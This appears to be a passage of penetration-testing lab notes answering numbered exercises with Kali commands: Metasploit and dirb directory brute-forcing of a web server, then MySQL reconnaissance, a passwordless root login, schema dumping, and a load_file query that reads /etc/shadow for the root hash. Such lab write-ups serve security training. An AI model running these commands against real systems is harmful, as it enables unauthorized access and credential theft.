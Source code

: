 ```bash

# 7. Perform bruteforce on webserver directories and list the names of directories found.
#    Use brute_dirs metasploit module.
john@kali> msfconsole
msf5> use scanner/http/brute_dirs
msf5> set rhosts 192.237.132.3
msf5> run
msf5> exit

# 8. Use the directory buster (dirb) with tool/usr/share/metasploit-framework/data/wordlists/directory.txt
#    dictionary to check if any directory is present in the root folder of the web server. 
#    List the names of found directories.
john@kali> dirb http://192.237.132.3 /usr/share/metasploit-framework/data/wordlists/directory.txt

# 9. Which bot is specifically banned from accessing a specific directory?
john@kali> curl http://192.237.132.3/robots.txt 
```

### SQL

#### MySQL Basics

```bash
john@kali> ip a

# 1. What is the version of MySQL server?
john@kali> nmap 192.193.26.3 -sV

# 2. What command is used to connect to remote MySQL database?
john@kali> mysql -h 192.193.26.3 -u root

# 3. How many databases are present on the database server?
MySQL> show databases;

# 4. How many records are present in table “authors”? This table is present inside the “books” database.
MySQL> use books;
MySQL> select count(*) from authors;

# 5. Dump the schema of all databases from the server using suitable metasploit module?
john@kali> msfconsole
msf5> use scanner/mysql/mysql_schemadump
msf5> set rhosts 192.193.26.3
msf5> set username root
msf5> run

# 6. How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
msf5> use scanner/mysql/mysql_writable_dirs
msf5> set rhosts 192.193.26.3
msf5> set verbose false
msf5> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
msf5> set file_name test
msf5> run

# 7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.


# 8. Find the system password hash for user "root".
MySQL> select load_file('/etc/shadow');

```
